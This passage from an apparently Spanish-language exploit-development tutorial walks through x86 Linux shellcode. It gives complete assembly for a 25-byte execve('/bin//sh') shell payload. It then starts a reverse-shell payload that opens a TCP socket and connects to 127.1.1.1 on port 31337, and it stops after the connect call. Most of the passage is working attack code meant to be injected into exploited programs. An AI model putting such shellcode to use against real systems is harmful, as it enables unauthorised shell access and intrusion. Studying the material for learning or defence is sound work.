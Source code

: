 No queda claro quién dejó de lado esa forma de obtener una dirección a «/bin/sh» al percatarse de que se podía aprovechar que «/bin//sh» (que es igual de válido que /bin/sh o que //bin/sh, o ///bin/////sh) mide 8 bytes, de forma que podemos poner esa cadena en el stack mediante dos `push`‘s y obtener la dirección mediante un `mov ..., esp`. Veamos el típico shellcode:  

    xor    eax, eax
    push   eax          ; Este null hace de terminación de la cadena ("")
    push   0x68732f2f   ; "//sh" (ya tenemos en el stack "//sh")
    push   0x6e69622f   ; "/bin" (ya tenemos "/bin//sh")
    mov    ebx, esp     ; ebx = path = &"/bin//sh" -> execve("/bin//sh", ..., ...);
    push   eax          ; argv[1] = NULL (argv se debe terminar con un puntero nulo que indique que no hay más argumentos)
    push   ebx          ; argv[0] = &"/bin//sh"
    mov    ecx, esp     ; ecx = argv -> execve("/bin//sh", ["/bin//sh", NULL], ...);
    xor    edx, edx     ; edx = envp = NULL -> execve("/bin//sh", ["/bin//sh", NULL], NULL);
    mov    al, 0xb      ; syscall 0xb
    int    0x80

En función de en qué condiciones se encuentre el programa explotado (si tiene seguridad social y esas cosas, ya sabes) cuando comience la ejecución de nuestro código podemos hacer más pequeño este código. Si eax ya vale 0x00000000 no tenemos que hacerlo nosotros, o incluso si edx contiene una dirección que apunte a un NULL (o a algo que valga como `char** envp`) tampoco tenemos que hacerlo NULL.  
De esta forma obtenemos un shellcode que mide 25 bytes.

Veamos cómo hacer un shellcode de conexión inversa (_reverse shell_). Para iniciar una conexión TCP como cliente es necesario primero obtener ejecutar un socket(AF\_INET, SOCK\_STREAM, IPPROTO\_TCP) que devuelva un fd sobre el que ejecutar un connect(). Las funciones de red en un sistema Linux se encuentran dentro de una única syscall, `socketcall`. Para indicar dentro de socketcall qué función deseamos se emplea el registro EBX, siendo 0x1 para socket() y 0x3 para connect() \[0x2 para bind, 0x4 para listen(), 0x5 para accept()\], empleándose para pasar los argumentos el stack, similar a cdecl, salvo que es necesario pasar un puntero a los argumentos en ECX. Por último es necesario ejecutar un dup2() sobre stdio, stderr y stdin para que envíen/reciban datos a través del socket, permitiendo así al atacante interactuar con la shell, la cual spawneamos al final.

    xor    eax, eax
    xor    ebx, ebx
    xor    edx, edx

push 0x6 ; arg protocol = IPPROTO\_TCP  
push 0x1 ; arg type = SOCK\_STREAM  
push 0x2 ; arg domain = AF\_INET  
mov ecx, esp ; puntero a los argumentos de socket()  
mov bl, 0x1 ; socket()  
mov al, 102 ; \_\_NR\_socketcall  
int 0x80 ; socket(AF\_INET, SOCK\_STREAM, IPPROTO\_TCP)  
mov esi, eax ; esi = fd

push 0x0101017f ; sockaddr\_in.sin\_addr = 127.1.1.1  
push word 0x697a ; sockaddr\_in.sin\_port = 31337  
push word 0x2 ; sockaddr\_in.sin\_family = AF\_INET  
mov ecx, esp ; ecx = &sockaddr\_in  
push 0x10 ; arg address\_len = sizeof(struct sockaddr\_in) = 16  
push ecx ; arg address = &sockaddr\_in  
push esi ; arg socket = fd  
mov ecx, esp ; puntero a los argumento de connect()  
mov bl, 0x3 ; connect()  
mov al, 102 ; \_\_NR\_socketcall  
int 0x80 ; connect(fd, &sockaddr\_in, 16)
